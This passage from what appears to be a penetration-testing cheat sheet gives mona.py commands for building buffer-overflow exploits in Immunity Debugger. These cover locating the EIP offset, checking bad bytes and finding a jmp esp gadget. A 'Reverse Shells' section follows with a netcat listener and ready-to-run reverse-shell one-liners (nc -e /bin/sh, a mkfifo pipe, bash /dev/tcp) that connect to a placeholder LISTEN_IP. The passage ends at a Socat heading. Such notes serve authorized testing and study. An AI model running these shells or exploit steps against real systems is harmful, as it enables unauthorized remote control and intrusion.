 In Windows' Immunity Debugger, you can use [mona.py](https://github.com/corelan/mona) for building exploits.
Here are some useful commands:

```sh
# To make mona easier to work with, set a custom working folder:
!mona config -set workingfolder c:\mona

# find the offset of EIP register in your buffer:
!mona findmsp -distance <PATTERN_SIZE>
# equivalent to:
msf-pattern_offset -q EIP_VAL

# Check for bad bytes. First start with baseline pattern that uses all bytes
# except null:
!mona bytearray -b "\x00"
# Then compare your memory at ESP with the baseline:
!mona compare -f C:\mona\bytearray.bin -a <ESP_ADDR>
# Finally, add any found bad bytes to the list, repeating the exploit/check
# until you get "Unmodified" status after running the compare command.

# find 'jmp esp' gadget, excluding bad bytes in the pointer
!mona jmp -r esp -cpb '\x00\x51'
```

## 5.4. Reverse Shells

- [Pentest Monkey Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Reverse Shell Generator](https://www.revshells.com/)

Always start your **Netcat Listener** first!

```sh
nc -vlnp LISTEN_PORT
# on mac, exclude the "-p" flag
```

**Netcat Reverse Shell**

```sh
# if netcat has the -e flag:
nc -e /bin/sh LISTEN_IP 443

# if no -e flag:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LISTEN_IP 443 >/tmp/f
```

**Bash Reverse Shell**

```sh
# only works on Linux with bash
/bin/bash -c 'bash -i >& /dev/tcp/LISTEN_IP/443 0>&1'
```

**Socat Listener**
